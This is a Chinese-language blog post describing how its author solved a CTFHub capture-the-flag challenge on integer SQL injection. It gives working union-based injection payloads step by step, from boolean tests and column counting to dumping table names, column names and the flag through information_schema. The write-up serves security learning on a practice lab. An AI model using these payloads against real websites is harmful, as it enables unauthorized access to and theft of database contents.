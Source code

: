 ```yaml
---
title: SQL注入--整数注入
date: 2020-04-07 15:04:05
tags: SQL注入
categories: 技术
photos: https://cdn.jsdelivr.net/gh/yremp/cdn@2.1.5/img/cover/(2).jpg.webp
---
```




﻿前言：前几天（很久以前）在ctfhub上做了一道整形注入的题。
什么是整形注入呐。[点这！](https://blog.csdn.net/qq_45869039/article/details/105190243)
直接入题！！！
**1.先判断是否存在注入。**
payload:

> ?id=1 and 1=1

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020040712211553.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
看到这里的正常回显。
然后

> ？id=1 and 1=2

 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200407122504901.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
 回显错误。可以判断出是整形。
 **2.判断列数。**
 order by语句。
> ?id=1 order by 1

1 2  3.....直到出现报错。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200407123120136.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
可以判断出只有两列。
3.**爆数据库名。**
payload:

>  ?id=1 and 1=2 union select 1,database()

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200407123806722.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
直接出来了！
**3.爆表名。**
payload:
```
?id=1 and 1=2 union select 1,group_concat(table_name)from information_schema.tables where table_schema='sqli'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200407124035584.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
出来了两个表。看到了flag的曙光。
**4.爆字段。**
payload:
```
?id=1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200407124334337.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
**5.爆值。**
payload：

```
?id=1 and 1=2 union select 1,group_concat(flag) from sqli.flag

```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200407124507438.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODY5MDM5,size_16,color_FFFFFF,t_70)
这样就拿到了flag？就这？自己的注入还是太菜,还需要加强。

